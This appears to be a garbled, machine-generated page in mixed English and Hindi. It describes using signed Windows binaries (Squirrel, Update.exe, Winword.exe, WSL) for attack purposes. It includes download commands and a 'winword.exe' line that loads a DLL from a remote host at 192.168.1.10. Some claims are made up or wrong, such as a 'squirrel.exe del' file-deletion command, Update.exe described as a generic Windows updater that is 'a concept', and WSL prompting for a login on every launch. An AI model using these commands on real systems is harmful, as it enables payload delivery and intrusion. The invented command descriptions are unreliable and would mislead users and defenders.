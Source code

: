 - To delete a file on the target system, you can use the following command:

```
squirrel.exe del C:\path\to\file
```

Replace `C:\path\to\file` with the path to the file you want to delete.

## Security Considerations

It is important to note that using Squirrel.exe to gain unauthorized access to a system is illegal and unethical. This tool should only be used for legitimate purposes, such as penetration testing or system administration.

Always ensure that you have proper authorization before using Squirrel.exe on a target system. Unauthorized use can result in severe legal consequences.
```
squirrel.exe --download [url to package]
```
# Update.exe

यह एक Windows प्रोसेस है जो सिस्टम में सॉफ़्टवेयर अपडेट करने के लिए उपयोग होता है। यह प्रोसेस आपके सिस्टम में स्वतः चलता है और नवीनतम अपडेट उपलब्ध होने पर आपको सूचित करता है। यदि आपके सिस्टम में कोई सॉफ़्टवेयर अपडेट उपलब्ध होता है, तो आप इस प्रोसेस को चालू रख सकते हैं ताकि आपका सिस्टम सुरक्षित रहे और नवीनतम सुरक्षा अपडेट प्राप्त कर सकें।

यदि आपको लगता है कि आपके सिस्टम में यह प्रोसेस अनुचित रूप से चल रहा है या आपको इसके बारे में किसी अन्य संकेत मिलता है, तो आप इसे अविश्वसनीय मान सकते हैं और उसे अवरोधित कर सकते हैं। इसके लिए, आपको टास्क मैनेजर को खोलना होगा, उसमें "Processes" टैब पर जाना होगा और "Update.exe" प्रोसेस को चुनना होगा। फिर, आपको "End Process" बटन पर क्लिक करना होगा ताकि यह प्रोसेस बंद हो जाए।

ध्यान दें कि यह प्रोसेस वास्तव में एक अवधारणा है और आपके सिस्टम में अन्य नामों से भी चल सकता है, इसलिए आपको इसे अवरोधित करने से पहले सुनिश्चित करना चाहिए कि यह वास्तव में एक अविश्वसनीय प्रोसेस है।
```
Update.exe --download [url to package]
```
Winword.exe is the executable file for Microsoft Word, which is a popular word processing software. It is commonly found in the Microsoft Office suite and is used for creating, editing, and formatting documents.
```
winword.exe "http://192.168.1.10/TeamsAddinLoader.dll"
```
# Wsl.exe

यह एक Windows Subsystem for Linux (WSL) कमांड है जो Windows में Linux द्वारा चलाए जा रहे एप्लिकेशन्स को समर्थित करता है। WSL के माध्यम से, आप Windows में एक Linux डिस्ट्रीब्यूशन को चला सकते हैं और Linux टूल्स और कमांड्स का उपयोग कर सकते हैं।

इसका उपयोग करने के लिए, आपको एक टर्मिनल खोलनी होगी और `wsl` कमांड को लिखना होगा। इसके बाद, आपको उपयोगकर्ता नाम और पासवर्ड दर्ज करने के लिए पूछा जाएगा। एक बार जब आप सफलतापूर्वक प्रमाणीकृत हो जाएंगे, आपको Linux डिस्ट्रीब्यूशन में प्रवेश मिलेगा और आप उसे विशेष तरीके से उपयोग कर सकेंगे।

यह कमांड विभिन्न उपयोगकर्ता अनुभवों के लिए उपयोगी हो सकती है, जैसे कि वेब डेवलपमेंट, सिक्योरिटी टेस्टिंग, और अन्य लिनक्स आधारित कार्यों के लिए।
